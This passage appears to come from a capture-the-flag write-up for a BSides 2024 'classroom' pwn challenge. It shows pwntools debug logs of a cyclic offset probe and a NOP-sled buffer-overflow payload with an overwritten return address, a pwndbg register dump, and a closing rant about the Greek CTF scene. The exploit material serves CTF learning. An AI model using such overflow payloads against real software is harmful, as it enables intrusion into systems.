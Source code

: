```
...[snip]...
[DEBUG] Received 0x7e bytes:
    00000000  4b 69 64 73  20 6d 75 73  74 20 66 6f  6c 6c 6f 77  │Kids│ mus│t fo│llow│
    00000010  20 74 68 65  20 72 75 6c  65 73 21 0a  31 2e 20 4e  │ the│ rul│es!·│1. N│
    00000020  6f 20 63 68  65 61 74 69  6e 67 21 20  20 20 e2 9d  │o ch│eati│ng! │  ··│
    00000030  8c 0a 32 2e  20 4e 6f 20  73 77 65 61  72 69 6e 67  │··2.│ No │swea│ring│
    00000040  21 20 20 20  e2 9d 8c 0a  33 2e 20 4e  6f 20 f0 9f  │!   │····│3. N│o ··│
    00000050  9a a9 20 73  68 61 72 69  6e 67 21 20  e2 9d 8c 0a  │·· s│hari│ng! │····│
    00000060  0a 49 73 20  65 76 65 72  79 74 68 69  6e 67 20 63  │·Is │ever│ythi│ng c│
    00000070  6c 65 61 72  3f 20 28 79  2f 6e 29 0a  3e 20        │lear│? (y│/n)·│> │
    0000007e
[DEBUG] Sent 0x5d bytes:
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaa\n'
...[snip]...
    b'Enough questions for today class...\n'
    b'Well, maybe a last one and then we finish!\n'
    b'> '
[DEBUG] Sent 0x190 bytes:
    00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000080  90 90 90 90  90 90 90 90  0c 09 40 00  00 00 00 00  │····│····│··@·│····│
    00000090  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000190
[*] Switching to interactive mode
[DEBUG] Received 0x3a bytes:
    00000000  57 68 61 74  20 61 72 65  20 79 6f 75  20 64 6f 69  │What│ are│ you│ doi│
    00000010  6e 67 20 68  65 72 65 3f  21 20 4b 69  64 73 20 61  │ng h│ere?│! Ki│ds a│
    00000020  72 65 20 6e  6f 74 20 61  6c 6c 6f 77  65 64 20 68  │re n│ot a│llow│ed h│
    00000030  65 72 65 21  20 f0 9f 94  9e 0a                     │ere!│ ···│··│
    0000003a
What are you doing here?! Kids are not allowed here! 🔞
[*] Got EOF while reading in interactive
$ 
[DEBUG] Sent 0x1 bytes:
    b'\n'
[*] Process '/home/kidd/Desktop/WORK/bsides24/pwn/classroom' stopped with exit code -9 (SIGKILL) (pid 33577)
[*] Got EOF while sending in interactive
```

In pwndbg the program will first break after `read()`, where `$rsp` (=`$rsi`) and `$rbp` point to our buffer.

```python
pwndbg> c
Continuing.

Breakpoint 1, 0x0000000000400a48 in kinder ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off─────────────────────────────────────────────
*RAX  0x14c
 RBX  0x7ffe3275dbf8 —▸ 0x7ffe3275e4f5 ◂— '/home/kidd/Desktop/WORK/bsides24/pwn/classroom'
 RCX  0x7f4054f38a1d (read+13) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x14c
 RDI  0
*RSI  0x7ffe3275da40 ◂— 0x9090909090909090
*R8   0xff00
 R9   7
 R10  7
 R11  0x246
 R12  0
```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?